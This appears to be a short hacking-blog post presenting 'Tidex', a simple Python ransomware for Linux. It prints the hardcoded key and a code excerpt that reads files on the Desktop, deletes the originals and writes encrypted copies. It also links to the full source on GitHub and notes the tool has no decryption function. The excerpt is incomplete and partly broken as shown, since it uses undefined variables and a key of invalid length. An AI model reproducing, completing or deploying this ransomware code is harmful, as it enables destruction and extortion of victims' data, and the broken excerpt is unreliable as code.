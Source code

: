 ```yaml
---
title: "[🇺🇸] Tidex Ransomware"
excerpt: "Ransomware Example Tidex for Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex

Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;

## Important

At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: **hkpykiiqftupr3okl04azj**

&nbsp;

Code Example

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

### [Dowload Here From GitHub](https://github.com/Rawierdt/Tidex)

Thx
~ Rawier.
